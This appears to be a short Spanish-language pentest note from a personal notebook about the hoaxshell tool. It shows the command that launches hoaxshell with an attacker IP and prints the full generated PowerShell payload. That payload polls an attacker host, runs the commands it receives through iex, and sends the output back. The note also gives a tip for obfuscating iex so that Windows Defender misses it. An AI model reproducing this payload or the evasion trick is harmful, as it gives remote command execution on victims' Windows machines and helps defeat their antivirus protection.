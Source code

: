 ```yaml
---
tags: [pentest]
created: 2024-12-21

---
```

---------------
- tags: #Windows #Av #Defender #hoaxshell #RCE #cmd #powershell
-------------------

### Usando hoaxshell (de github)
-r: Te da el ouput en "raw". 
-s: IP de atacante

```
python3 hoaxshell.py -s 192.168.1.73 -r
```

*Output:*

```
$s='192.168.1.73:8080';$i='2f5ef625-0dd0df8f-3bce6450';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/2f5ef625 -Headers @{"X-a31e-788c"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/0dd0df8f -Headers @{"X-a31e-788c"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/3bce6450 -Method POST -Headers @{"X-a31e-788c"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

***Reemplazamos iex por i'e'x para bypassear Windows Defender***


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
